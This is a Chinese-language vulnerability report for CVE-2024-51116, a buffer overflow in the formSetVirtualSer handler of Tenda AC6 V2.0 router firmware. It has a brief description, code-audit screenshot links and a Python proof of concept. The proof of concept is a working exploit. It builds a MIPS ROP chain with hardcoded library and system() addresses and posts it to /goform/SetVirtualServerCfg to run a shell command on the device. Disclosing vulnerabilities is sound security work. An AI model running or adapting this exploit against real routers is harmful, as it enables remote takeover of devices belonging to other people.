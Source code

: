 # tenda AC6V2.0 缓冲区溢出漏洞报告
#CVE-2024-51116

## 漏洞描述  

在 tenda AC6V2.0 的 `formSetVirtualSer` 函数中，存在缓冲区溢出漏洞。该漏洞可能导致攻击者利用恶意输入，覆盖内存中其他重要数据，从而可能导致设备崩溃或执行任意代码。  

## 影响版本  

- V15.03.06.50  

## 代码审计

参数list可控

<img width="384" alt="{927F719C-7572-4C78-A0E5-1D5690767446}" src="https://github.com/user-attachments/assets/124fd028-d56a-47cc-842e-4ab7ad5b5482">

跟进save_virtualser_data函数，list赋值给变量p

<img width="430" alt="{1930F56C-54D8-4057-A28D-4210ED88F17A}" src="https://github.com/user-attachments/assets/ab39f653-caf7-4b06-ae88-8fac4efee49b">

变量p通过sscanf函数复制给其他变量，产生溢出

<img width="540" alt="{5B434085-4CE5-430D-B922-B5F0B029D91E}" src="https://github.com/user-attachments/assets/112108f8-b013-4f05-9f53-644607b4c80d">


## 漏洞利用证明 (POC)  

```plaintext
import requests
from pwn import *

target_ip = "192.168.0.1"
target_port = 80
cookie = {"bLanguage":"zh", "password":"dmg23f"}

libcbase = 0x7f526000
mov_a0_jmp_sp = 0x28D58 + libcbase    #|addiu $a0,0x20($sp)|  jr   0x1C($sp) |
cmd = b"echo 123 > 1.txt"
system = 0x7f710b10

rop=p32(mov_a0_jmp_sp)+0x1c*b'a'+p32(system)+cmd

def exp_list():
	url = f"http://{target_ip}/goform/SetVirtualServerCfg" 
	payload = b'192.168.0.1,8080,9090,'+b'b'*0x18+rop	
	data = {"list": payload}
	response = requests.post(url, cookies=cookie, data=data)
	print(response.text)

exp_list()
